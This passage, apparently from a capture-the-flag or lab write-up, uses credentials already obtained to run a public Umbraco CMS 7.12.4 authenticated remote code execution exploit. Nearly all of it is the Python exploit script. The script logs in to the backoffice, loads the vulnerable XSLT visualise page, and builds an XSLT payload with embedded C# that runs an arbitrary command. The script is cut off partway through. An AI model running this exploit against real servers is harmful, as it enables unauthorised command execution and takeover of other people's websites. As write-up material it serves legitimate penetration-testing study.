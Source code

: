 So now that we have credentials we can use the RCE exploit found <a href="https://github.com/noraj/Umbraco-RCE">here</a>. 

```python
# Exploit Title: Umbraco CMS - Authenticated Remote Code Execution 
# Date: 2020-03-28
# Exploit Author: Alexandre ZANNI (noraj)
# Based on: https://www.exploit-db.com/exploits/46153
# Vendor Homepage: http://www.umbraco.com/
# Software Link: https://our.umbraco.com/download/releases
# Version: 7.12.4
# Category: Webapps
# Tested on: Windows IIS
# Example: python exploit.py -u admin@example.org -p password123 -i 'http://10.0.0.1' -c ipconfig

import requests
import re
import argparse

from bs4 import BeautifulSoup

parser = argparse.ArgumentParser(prog='exploit.py',
    description='Umbraco authenticated RCE',
    formatter_class=lambda prog: argparse.HelpFormatter(prog,max_help_position=80))
parser.add_argument('-u', '--user', metavar='USER', type=str,
    required=True, dest='user', help='username / email')
parser.add_argument('-p', '--password', metavar='PASS', type=str,
    required=True, dest='password', help='password')
parser.add_argument('-i', '--host', metavar='URL', type=str, required=True,
    dest='url', help='root URL')
parser.add_argument('-c', '--command', metavar='CMD', type=str, required=True,
    dest='command', help='command')
parser.add_argument('-a', '--arguments', metavar='ARGS', type=str, required=False,
    dest='arguments', help='arguments', default='')
args = parser.parse_args()

# Payload
payload = """\
<?xml version="1.0"?><xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform" xmlns:msxsl="urn:schemas-microsoft-com:xslt" xmlns:csharp_user="http://csharp.mycompany.com/mynamespace"><msxsl:script language="C#" implements-prefix="csharp_user">public string xml() { string cmd = "%s"; System.Diagnostics.Process proc = new System.Diagnostics.Process(); proc.StartInfo.FileName = "%s"; proc.StartInfo.Arguments = cmd; proc.StartInfo.UseShellExecute = false; proc.StartInfo.RedirectStandardOutput = true;  proc.Start(); string output = proc.StandardOutput.ReadToEnd(); return output; }  </msxsl:script><xsl:template match="/"> <xsl:value-of select="csharp_user:xml()"/> </xsl:template> </xsl:stylesheet>\
""" % (args.arguments, args.command)

login = args.user
password = args.password
host = args.url

# Process Login
url_login = host + "/umbraco/backoffice/UmbracoApi/Authentication/PostLogin"
loginfo = { "username": login, "password": password}
s = requests.session()
r2 = s.post(url_login,json=loginfo)

# Go to vulnerable web page
url_xslt = host + "/umbraco/developer/Xslt/xsltVisualize.aspx"
r3 = s.get(url_xslt)

soup = BeautifulSoup(r3.text, 'html.parser')
VIEWSTATE = soup.find(id="__VIEWSTATE")['value']
```